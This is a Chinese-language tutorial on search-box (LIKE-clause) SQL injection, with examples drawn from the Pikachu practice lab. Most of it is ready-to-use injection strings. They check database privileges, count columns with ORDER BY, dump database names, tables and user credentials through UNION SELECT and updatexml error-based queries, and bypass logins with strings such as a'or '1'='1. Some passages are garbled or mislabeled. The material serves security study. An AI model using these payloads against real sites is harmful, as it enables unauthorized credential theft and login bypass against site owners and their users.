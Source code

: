 # 搜索型注入指北

## 一、搜索型注入简介与原理

- 1）简介
一些网站为了方便用户查找网站的资源,都对用户提供了搜索的功能,因为是搜索功能,往往是程序员在编写代码时都忽略了对其变量(参数)的过滤,而且这样的漏洞在国内的系统中普遍的存在:

其中又分为POST/GET,GET型的一般是用在网站上的搜索,而POST则用在用户名的登录,可以从form表单的method="get"属性来区分是get还是post。搜索型注入又称为文本框注入。

- 2）$sql="select * from user where password like '%$pwd%' order by password";

这句SQL的语句就是基于用户输入的pwd在users表中找到相应的password，正常用户当然会输入例如admin,ckse等等。但是如果有人输入这样的内容呢？

'and 1=1 and '%'='
这样的话这句SQL语句就变成了这样

select * from user where password like '%fendo'and 1=1 and '%'='%' order by password
changle

## 一.判断权限

a%' and (select is_member('dbo'))=1--    返回正常则 sa-系统管理员--跟windows的帐户没有关系--可以说SA的权限在SQL中是至高无上的。
a%' and (select is_member('db_owner'))=1--   返回正常则 DB
都不是那就只有一种可能啦，public，权限貌似很小。
也可以用另一种命令来判断权限
a%' and 1=(Select IS_SRVROLEMEMBER('sysadmin'));-- sa
a%' and 1=(Select IS_MEMBER('db_owner'));-- DB

## 二、搜索型注入判断
```
'and 1=1 and '%'='
%' and 1=1--'
%' and 1=1 and '%'='
```

## 三、搜索型注入实战

### 1）ge型注入
先查看源代码；
有没有字段过滤；
判断--用户名的数字
%' union select 1,2,3,4,...... and '%'='
如果不报错则为4位数。，5，6，7等等。
and exists (select id from user where LENGTH(username)<6 and id=1) and '%'=' 


### 2）判断 ---字符数量；
输入 ' order by 4#% ,报错
输入 ' order by 3#% ,未报错，通过这个简单的办法找到主查询一共有三个字段。

构造 payload: a' union select database(),user(),version()#%
利用%%闭合来写一段创建并查询数据库表，用户名和email的代码；
select username,id,email from member where username like '%$name%'";
name变成==a' union select database(),user(),4#%
就变成了select username,id,email from member where username like '%$a' union select database(),user(),4#%%'";
`#`后面被注释了。


### 3）---获取表名
a'（赋值） union select（联合查询） table_schema,table_name,2 from information_schema.tables where table_schema='pikachu'#（数据库名）
会返回一堆数据库中的表


查询表 users  和password中的数据名称：
a'union select username（表名） ,password（表明）,4 from users#%


> select下的报错演示

select（查询）/insert（插入语句）/update（数据更新）/delete（删除） 都可以使用报错来获取信息.

```

UPDATEXML(xml_document,XPathstring,new_value)
```

Updatexml() 函数作用:改变(查找并替换)XML文档中符合条件的节点的值.

第一个参数:fiedname是String格式,为表中的字段名.
第二个参数:XPathstring(Xpath格式的字符串).
第三个参数:new_value,String格式,替换查找到的符合条件的 X
改变 XML_document 中符合 XPATH_string 的值

而我们的注入语句为：
```sql
 a' and updatexml(1,concat(0x7e,(SELECT @@version)),0)#
```


其中的concat()函数是将其连成一个字符串，因此不会符合XPATH_string的格式，从而出现格式错误，爆出 ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'



获取数据库表名，输入：a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0)# ，
但是反馈回的错误表示只能显示一行，所以采用 limit 来一行一行显示

字段名 a' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0)# 更改limit后面的数字，爆表名



数据 a' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#


## **登录界面的sql语句集合**

**基于错误的POST型单引号字符型注入**

username-  a
passowrd-  a'or '1'='1 #

**基于错误的双引号POST型字符型变形的注入**

username-  a
passowrd-  a')or 1=1
passowrd-  a')or '1'='1



**POST单引号变形双注入**

username-  a
passowrd-  a')or ('1')=('1


